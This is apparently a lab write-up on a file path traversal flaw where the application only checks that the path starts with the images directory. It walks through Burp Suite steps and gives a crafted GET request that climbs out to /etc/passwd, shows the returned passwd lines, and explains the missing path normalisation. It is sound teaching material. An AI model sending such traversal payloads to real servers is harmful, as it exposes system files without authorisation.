

🧪 Lab: File Path Traversal (Validation of Start of Path)
🎯 Goal

Retrieve the contents of /etc/passwd

🛠️ Steps (Using Burp Suite Repeater)
1. Intercept the Request
Open the lab
Turn Intercept ON
Click on a product image

Captured request:

GET /image?filename=/var/www/images/product.jpg HTTP/1.1
Host: target
2. Send to Repeater
Right-click → Send to Repeater
3. Modify the Payload

The app checks that the path starts with /var/www/images/
So we keep that part and then traverse:

GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
Host: target
4. Send the Request
Click Send
5. Observe the Response

Response contains:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

✅ Successfully retrieved /etc/passwd

💡 Why This Works (Important Concept)

The application:

✅ Checks if path starts with:

/var/www/images/
❌ But does NOT normalize the path
What happens:

Input:

/var/www/images/../../../etc/passwd

After resolution:

/etc/passwd

👉 The OS resolves ../ after validation

🧠 Hacker Insight

This is called:
👉 Improper path validation

Real-world mistake:

Developers validate the string
But forget how the OS resolves paths

